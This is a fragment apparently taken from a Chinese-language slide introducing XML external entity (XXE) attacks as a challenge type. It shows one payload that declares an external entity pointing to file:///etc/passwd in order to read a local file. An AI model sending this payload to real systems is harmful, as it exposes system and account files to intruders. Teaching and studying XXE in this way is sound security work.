

题目类型
XXE简介：
读取本地文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<root>&file;</root>